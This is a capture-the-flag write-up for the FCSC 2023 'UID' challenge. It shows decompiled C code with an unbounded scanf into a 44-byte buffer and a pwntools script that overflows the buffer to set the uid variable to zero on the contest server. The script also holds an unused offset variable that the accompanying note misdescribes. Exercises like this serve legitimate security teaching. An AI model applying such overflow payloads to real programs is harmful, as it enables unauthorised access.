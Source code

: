 ```yaml
---
title: CTFs | FCSC2023 | UID
author: BatBato
date: 2023-05-02
categories: [CTFs, FCSC2023, Intro]
tags: [CTF, FCSC, BoF]
permalink: /CTFs/FCSC2023/Intro/UID
---
```


# UID

![image](https://user-images.githubusercontent.com/73934639/235730343-6932dc50-9b9e-4b9a-be8a-041c644e0bf0.png)

For this chall, we had a really simple compiled C code. This code, analysed with Ghidra looked like this:

```c
undefined8 main(void)

{
  undefined local_38 [44];
  __uid_t local_c;
  
  local_c = geteuid();
  printf("username: ");
  fflush(stdout);
  __isoc99_scanf(&DAT_0010200f,local_38);
  if (local_c == 0) {
    system("cat flag.txt");
  }
  else {
    system("cat flop.txt");
  }
  return 0;
}
```

This basically just check if your user id is equal to `0` which is the `root` uid. The length of the string was 44 chars long. So we just need to input `44` chars, followed by a 0 to overwrite the value of the `local_c` variable:

```python
from pwn import *

# offset to return address
offset = 0x44+8

# Start the process
#p = process("./uid")
p = remote('challenges.france-cybersecurity-challenge.fr', 2100)
p.recvuntil("username: ")

# Craft the payload
payload = b"A" * 44 # Fill the buffer until the end of local_38
payload += p64(0)   # Overwrite local_c with 0 (use p64 for 64-bit value)

# Send the payload
p.sendline(payload)

# Print the output
print(p.recvall().decode())
```

> Note that we added `+8` at the offset so that we can overwrite the next address.
{: .prompt-tip}

This gives us:

![image](https://user-images.githubusercontent.com/73934639/235733792-be7bbae5-10f9-4d83-a878-54888f1f7aaf.png)

